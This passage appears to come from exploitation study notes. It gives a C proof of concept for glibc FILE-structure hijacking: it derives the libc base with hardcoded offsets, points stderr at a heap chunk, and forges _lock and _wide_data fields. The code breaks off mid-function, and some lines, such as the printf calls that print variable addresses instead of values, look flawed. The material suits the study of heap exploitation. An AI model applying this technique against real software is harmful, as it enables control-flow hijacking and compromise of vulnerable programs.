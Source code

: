 ![image](assets/image-20230927121533-rc9uavs.png)

‍

```c
#include<stdio.h>
#include<stdlib.h>


int main(){
	size_t puts_addr = &puts;
	size_t libc_base = puts_addr - 528080;
	size_t*stderr_   = libc_base + 0x21a860; // p &stderr


	printf("libc_base = %p",&libc_base);
	printf("stderr_   = %p",&stderr_);

	size_t *ptr = malloc(0x500);
	size_t heap_addr = ptr - 0x2a0;
	size_t _F = libc_base + 2187456;
	* stderr_ = ptr - 2;

	ptr[0x508/8] =  0x55;
	ptr[15] =  heap_addr+0x600; // _lock
	ptr[25] =  _F+0x10;

	ptr[18] = ptr - 2; //wide _data
	ptr[1] = 1;
	ptr[2] = 2;
	ptr[2] = 0x123;
	ptr[26] = ptr-1;
```